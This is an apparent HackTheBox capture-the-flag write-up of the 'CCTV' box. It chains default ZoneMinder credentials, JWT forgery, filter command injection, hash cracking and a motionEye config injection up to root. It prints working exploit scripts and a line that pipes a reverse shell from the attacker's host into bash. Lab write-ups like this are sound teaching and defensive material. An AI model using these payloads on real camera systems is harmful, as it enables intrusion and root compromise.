





# HackTheBox — CCTV: JWT Forgery, ZoneMinder Filter RCE, and a motionEye Auth Quirk

CCTV is an Easy-rated Linux box that hides a surprisingly rich attack chain behind its approachable difficulty label. What starts as default credentials against ZoneMinder escalates through JWT forgery, daemon-driven command injection, and a motionEye authentication mechanism that turns the conventional "crack the hash" approach completely on its head.

---

## Overview

The box exposes a ZoneMinder CCTV management interface running with default credentials and, more critically, an unchanged JWT secret. Forging a superadmin token unlocks filter-based command execution, giving us a shell as `www-data`. From there, cracked database credentials get us SSH access as `mark`, and a locally-bound motionEye instance running as root provides the final escalation — once you understand that its stored SHA-1 password hash *is* the API credential, not something you need to crack.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scan

Starting with a standard nmap scan to see what's exposed:



Two ports — SSH and HTTP. The HTTP server redirects to `cctv.htb`, so I added that to `/etc/hosts` and hit the site. It's a static marketing page for "SecureVision CCTV & Security Solutions," and a "Staff Login" link in the nav points to `/zm/`.

### ZoneMinder Enumeration

`/zm/` loads a ZoneMinder login page. Version disclosure in the page source and the API endpoint `/zm/api/host/getVersion.json` confirm **ZoneMinder 1.37.63**. The default credentials `admin:admin` work immediately.



After logging in I can see the admin account has limited permissions — `System:View` and `Snapshots:None`. More interesting is that the API is enabled and no monitors are configured yet. I also noted that the known unauthenticated snapshot injection vulnerability (CVE-2023-26035) is patched here — views require authentication.

Directory busting under `/zm/` turned up the standard ZoneMinder structure: `api/`, `views/`, `ajax/`, `cgi-bin/`, and so on. Nothing immediately exploitable from the outside.

---

## Foothold

### JWT Forgery via Default Secret

ZoneMinder's API authentication can use JWT tokens, and the token signing secret is controlled by the `ZM_AUTH_HASH_SECRET` configuration value. The factory default is literally `...Change me to something unique...` — and this installation hadn't changed it.

With `ZM_OPT_USE_LEGACY_API_AUTH=1` also set (confirmed via the config API endpoint at `/zm/api/configs.json` while authenticated as admin), I could forge a valid HS256 JWT for any user. The `superadmin` account exists by default in ZoneMinder and has `System:Edit` and `Snapshots:Edit` privileges — exactly what I needed.

```python
import jwt
import datetime

secret = "...Change me to something unique..."

payload = {
    "iss": "ZoneMinder",
    "iat": int(datetime.datetime.utcnow().timestamp()),
    "exp": int((datetime.datetime.utcnow() + datetime.timedelta(hours=24)).timestamp()),
    "user": "superadmin",
    "type": "access"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

Passing this token as the `token` parameter on any API request gave me superadmin-level access.

### Filter Command Execution → www-data Shell

ZoneMinder has a feature called *filters* — background jobs that run on a schedule, match events based on criteria, and can execute an arbitrary command against each matching event via the `AutoExecuteCmd` field. The filter daemon (`zmfilter.pl`) picks up and runs these commands.

The plan:
1. Authenticate as superadmin using the forged JWT
2. Modify the existing background filter (ID=1, `PurgeWhenFull`) to add an `AutoExecuteCmd`
3. Create synthetic events via the API to trigger filter matches
4. Wait for the daemon cycle (~60 seconds) to execute the command

One important detail: saving a filter requires `action=SaveAs` (not `save` — this is case-sensitive and took me a while to figure out). Each request also needs a fresh JWT *and* a fresh CSRF token, since sessions are effectively single-use with token-based auth.

Another gotcha: `AutoExecuteCmd` is limited to 255 characters. A full reverse shell one-liner won't fit. The solution is a two-stage approach — first write a script to `/tmp`, then execute it:

```bash
# Stage 1: Write the reverse shell script
curl http://KALI:8080/r3.sh -o /tmp/r3.sh

# Stage 2: Execute it (separate filter update)
bash /tmp/r3.sh
```

Even better, I served a shell script from my Kali box that I could update between requests:

```bash
# AutoExecuteCmd payload (stage 1):
curl http://<VPN_IP>:8080/r3.sh|bash
```

The `r3.sh` on my end was a simple bash reverse shell. I hosted it with Python's HTTP server, set up a netcat listener, created a few events via the API (`POST /zm/api/events.json` with `MonitorId=0`), and waited for the daemon to cycle.

```bash
# Create a triggerable event
curl -s -X POST "http://cctv.htb/zm/api/events.json?token=$TOKEN" \
  -d "Event[MonitorId]=0&Event[Name]=test&Event[Cause]=test"
```

After about 60 seconds, the reverse shell connected.



### Internal Recon as www-data

With a shell on the box, I started mapping the internal landscape. Several interesting ports were bound to localhost:

- **3306** — MySQL
- **8765** — motionEye v0.43.1b4 (web CCTV manager)
- **7999** — Motion v4.7.1 (motion detection daemon)
- **8888** — A Go-style API (returns `404 page not found` on unknown routes)
- **1935/8554/9081** — RTMP, RTSP, MJPEG streaming

I also found `/opt/video/backups/server.log`, which showed the `sa_mark` user regularly authenticating to the port 8888 API with `status` and `disk-info` commands every 30–60 seconds. That's useful context for later, but the most actionable finding was motionEye running on 8765.

### Database Dump → Cracking mark's Hash

The ZoneMinder config stored database credentials in the application's config API response:

```bash
curl -s "http://127.0.0.1/zm/api/configs/index.json?token=$TOKEN" | python3 -m json.tool | grep -A2 -i "zmpass\|zmuser"
```

Credentials: `zmuser:zmpass`. Connecting to MySQL:

```bash
mysql -u zmuser -pzmpass zm -e "SELECT Username,Password FROM Users;"
```



I pulled these onto Kali and ran hashcat against rockyou with mode 3200 (bcrypt):

```bash
hashcat -m 3200 zm_hashes.txt /usr/share/wordlists/rockyou.txt
```

`mark`'s hash cracked to `opensesame`. The others didn't crack in a reasonable time.

---

## Privilege Escalation

### www-data → mark

SSH straight in:

```bash
sshpass -p 'opensesame' ssh mark@<TARGET>
```

Mark's home directory doesn't have `user.txt` — the flag is in `sa_mark`'s home, so I still need to escalate. Mark isn't in the docker group, has no sudo, and there's nothing interesting in his home directory. The path forward is motionEye.

### mark → root via motionEye

#### Understanding motionEye's Auth Model

motionEye stores its admin password as a SHA-1 hash in `/etc/motioneye/motioneye.conf` and in camera config files. I found the hash in `/etc/motioneye/camera-1.conf`:

```
@admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
```

My first instinct was to crack it with hashcat, but rockyou produced nothing. Then I looked more carefully at how motionEye handles authentication in the browser — and found something interesting: **the JavaScript client SHA-1 hashes the password before sending it**. The server stores and compares the hash directly.

This means the SHA-1 hash itself *is* the credential. I don't need to crack it — I can use it directly.

The motionEye API uses a signature scheme for authenticated calls:

```
signature = SHA1("METHOD:path:body:key")
```

Where `key` is the admin password hash (the SHA-1 string I already have). Let me emphasize this because it's the key insight: it's not HMAC, it's just a plain SHA-1 of the concatenated fields.

```python
import hashlib
import requests

admin_hash = "989c5a8ee87a0e9521ec81a79187d162109282f0"

def sign(method, path, body=""):
    data = f"{method}:{path}:{body}:{admin_hash}"
    return hashlib.sha1(data.encode()).hexdigest()

# Get current camera config
path = "/config/1/get/"
sig = sign("GET", path)
r = requests.get(
    f"http://127.0.0.1:8765{path}",
    headers={"X-MOTIONEYE-SIGNATURE": sig, "X-MOTIONEYE-KEY": admin_hash}
)
print(r.json())
```

That returned the full camera configuration.

#### Injecting a Command via on_event_start

motionEye's `command_notifications_exec` setting maps directly to the `on_event_start` directive in Motion's camera config. When an event starts, Motion executes whatever is in that field — as the daemon user.

I verified the service user first:

```bash
systemctl cat motioneye.service | grep User
# User=root
```

Root. The plan was clear:

1. Fetch the current config
2. Enable command notifications and set the exec field to my payload
3. POST the updated config back
4. Restart the motion daemon (required for config changes to apply)
5. Trigger an event via Motion's webcontrol API on port 7999
6. Collect root

```python
import hashlib, requests, json

BASE = "http://127.0.0.1:8765"
admin_hash = "989c5a8ee87a0e9521ec81a79187d162109282f0"

def sign(method, path, body=""):
    return hashlib.sha1(f"{method}:{path}:{body}:{admin_hash}".encode()).hexdigest()

def motioneye_request(method, path, data=None):
    body = json.dumps(data) if data else ""
    sig = sign(method, path, body)
    headers = {
        "X-MOTIONEYE-SIGNATURE": sig,
        "X-MOTIONEYE-KEY": admin_hash,
        "Content-Type": "application/json"
    }
    if method == "GET":
        return requests.get(BASE + path, headers=headers)
    else:
        return requests.post(BASE + path, headers=headers, data=body)

# Get current config
config = motioneye_request("GET", "/config/1/get/").json()

# Inject payload
config["command_notifications_enabled"] = True
config["command_notifications_exec"] = "cp /root/root.txt /tmp/root.txt && chmod 777 /tmp/root.txt"

# Set the config
motioneye_request("POST", "/config/1/set/", config)

print("Config updated. Restarting motion daemon...")
```

After setting the config, I restarted the Motion daemon via its webcontrol port and waited for the `event_gap` timeout (30 seconds) before triggering a new event:

```bash
# Restart motion daemon
curl "http://127.0.0.1:7999/1/action/restart"

# Wait ~35 seconds, then trigger an event
sleep 35
curl "http://127.0.0.1:7999/1/action/eventstart"
```

First test — write the output of `id` to `/tmp/motioneye_rce_test`:



Root confirmed. I updated the payload to read both flags and wrote them to a world-readable location:

```bash
curl "http://127.0.0.1:7999/1/action/eventstart"
sleep 5
cat /tmp/flags.txt
```

Both flags read: `user.txt` from `/home/sa_mark/` and `root.txt` from `/root/`.

---

## Lessons Learned

**Default secrets are default vulnerabilities.** ZoneMinder ships with `ZM_AUTH_HASH_SECRET` set to a placeholder string. Leaving it unchanged means any attacker who reads the documentation can forge JWTs for any user, including superadmin. Check your defaults before going to production.

**Filter action values are case-sensitive.** `action=SaveAs` works; `action=save` returns a 200 with no effect. This is the kind of thing that costs 45 minutes. Read the source.

**Token-based sessions that are single-use require fresh tokens per request.** When scripting against ZoneMinder's API, generate a new JWT *and* scrape a new CSRF token before each state-changing request — otherwise you'll get mysterious 403s on perfectly valid payloads.

**Modifying an existing running filter is faster than creating a new one.** New filters are picked up by `zmfilter.pl` on `FILTER_RELOAD_DELAY` (default: 300 seconds). Patching filter ID=1, which is already running, takes effect on the next daemon cycle (~60 seconds).

**The 255-character limit on AutoExecuteCmd is real.** Plan for it. The curl-pipe pattern (`curl http://attacker/shell.sh|bash`) keeps the initial payload short and lets you iterate on the actual shell code without updating the filter each time.

**motionEye's SHA-1 "password" is not a hash to crack — it's a credential to use.** Because the JavaScript client hashes before submitting, the stored SHA-1 is what the server expects. The API signature scheme (`SHA1("METHOD:path:body:key")`) accepts it directly. Understanding authentication flow at the protocol level is more useful than blindly running hashcat.

**The motion webcontrol API is a powerful pivot point.** Being able to trigger events, restart daemons, and (via motionEye) rewrite camera configs from localhost gives enormous control — especially when the daemon runs as root. Always check what's listening on loopback.
